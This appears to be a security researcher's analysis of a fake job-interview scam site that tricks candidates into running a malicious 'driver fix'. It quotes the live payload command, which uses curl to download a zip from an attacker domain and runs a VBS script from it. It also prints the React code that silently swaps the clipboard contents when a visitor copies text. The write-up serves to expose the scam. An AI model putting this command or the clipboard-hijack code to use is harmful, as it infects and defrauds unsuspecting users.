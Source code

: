 # Technical Details

Here's a dive into how the attack works. From a technical standpoint it's not the most sophisticated attack out there, but it's reasonably well-executed and the code is heavily obfuscated that you would not pick it out right off the bat. Obviously if you're a non-technical person then all of this will likely go over your head.

I have saved the files in the [git repo](https://github.com/kavehtehrani/job_offer_scam) if you want to check it out for yourself.

## Attack Vector

The scam presents itself as a legitimate job interview platform with professional branding, then asks the candidate to complete "technical assessments" and video interviews. The last question asks for a video interview that is designed to fail. Then they want you to "update drivers" which is when users are shown commands that appear legitimate but are actually replaced with malicious payloads when copied to clipboard.

On Windows the after the camera "errors out" after a couple of seconds, a "How to Fix" popup shows this command to run:

`curl -L "https://download.microsoft.com/download/graphics-driver-update.exe" -o driver-update.exe && driver-update.exe /silent`

While a technical person would likely be alerted already at this stage, I presume the average user is greatly comforted by the presence of 'microsoft.com' in that domain. When you copy/paste the command, the command that actually gets copied is

`curl -k -o "%TEMP%\fixed.zip" "https://auto-ai.online/cam-v-257.fix" && powershell -Command "Expand-Archive -Force -Path '%TEMP%\fixed.zip' -DestinationPath '%TEMP%\fixed'" && wscript "%TEMP%\fixed\update.vbs"`

Not so friendly now. I presume the average user who wouldn't open a terminal would just copy/paste and hit enter without thinking about it twice.

### Clipboard Hijacking Mechanism

The attack uses a React application that implements clipboard hijacking through a `useEffect` hook:

**ACTUAL Clipboard Hijacking Code** (found in `page5_files/index-CXN-5r39.js.download`, line 164):

```javascript
S.useEffect(() => {
  const l = (u) => {
    if (!window.getSelection()) return;
    const d = i === "win" ? r.windows : r.mac;
    u.clipboardData &&
      (u.clipboardData.setData("text/plain", d), u.preventDefault());
  };
  return (
    document.addEventListener("copy", l),
    () => {
      document.removeEventListener("copy", l);
    }
  );
}, [r, i]);
```
